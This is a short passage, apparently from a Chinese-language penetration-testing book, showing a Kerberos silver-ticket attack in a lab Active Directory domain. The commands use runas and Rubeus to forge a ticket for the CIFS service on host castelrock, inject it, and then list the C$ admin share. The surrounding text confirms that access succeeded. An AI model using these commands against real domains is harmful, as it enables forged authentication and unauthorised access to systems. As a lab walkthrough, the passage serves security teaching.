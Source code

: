 ```
runas /netonly /user:sevenkingdoms\lord.varys cmd
Rubeus.exe silver /user:robert.baratheon /domain:sevenking doms.local /aes256:9a0d511ea6556233b28c0c0ec576e120cfdb08c372ef 5a7c4def5c829666d75f /sid:S-1-5-21-4243769114-3325725031-2403382846 /service:cifs/castelrock.sevenkingdoms.local /ptt
ls \\castelrock.sevenkingdoms.local\c$
```

Rubeus 已经成功注入了票证：

![图 7.1 – 在注入票证之前无法访问 CIFS 服务](img/B18964_07_01.jpg)

图 7.1 – 在注入票证之前无法访问 CIFS 服务

注入票证后，**castelrock** 上的 CIFS 服务可以访问：
